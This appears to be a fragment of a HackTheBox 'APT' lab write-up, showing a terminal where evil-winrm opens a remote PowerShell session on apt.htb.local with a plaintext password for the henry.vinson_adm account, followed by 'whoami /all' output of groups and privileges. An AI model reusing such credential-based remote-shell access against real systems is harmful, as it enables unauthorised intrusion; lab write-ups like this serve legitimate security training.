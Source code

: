 ```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ evil-winrm -u henry.vinson_adm -p G1#Ny5@2dvht -i apt.htb.local                                1 ⨯

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\henry.vinson_adm\Documents> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== =============================================
htb\henry.vinson_adm S-1-5-21-2993095098-2100462451-206186470-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
